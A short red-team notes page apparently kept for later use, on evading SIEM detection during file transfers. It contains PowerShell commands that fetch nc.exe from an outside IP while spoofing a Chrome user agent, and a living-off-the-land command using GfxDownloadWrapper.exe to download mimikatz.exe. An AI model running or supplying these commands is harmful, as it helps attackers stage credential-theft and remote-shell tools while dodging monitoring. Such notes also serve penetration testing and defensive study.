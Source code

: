 ```yaml
---
hidden: true
---
```


# Detection And Evasion (FOR RT LATER)

## File Transfer DaE

**A lot of SIEM (Security Information and Event Management) are checking** `user-agents` **to detect sus traffic.** But `user-agents` are not only used to identify web browsers, but anything acting as HTTP client and connecting to a web server via HTTP can have user agent string (like `cURL`, custom `Python` script or common tools like `sqlmap` and `nmap`). So File transfers could be detected.

### Evasion Techniques

#### Changing User Agent:

1. **Listing out User Agents**

```powershell
PS C:\>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

2. **Request with Chrome User Agent**

```powershell
PS C:\> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\> Invoke-WebRequest http://13.13.13.13/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

### LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, but not from using `Living Off the Land` Binaries. As example LOLBIN is the Intel Graphics Driver for Windows 10(GfxDownloadWrapper.exe), which could be used to file transfer

1. **Transferring File with GfxDownloadWrapper.exe**

```powershell
PS C:\carnifex17> GfxDownloadWrapper.exe "http://13.13.13.13/mimikatz.exe" "C:\Temp\nc.exe"
```
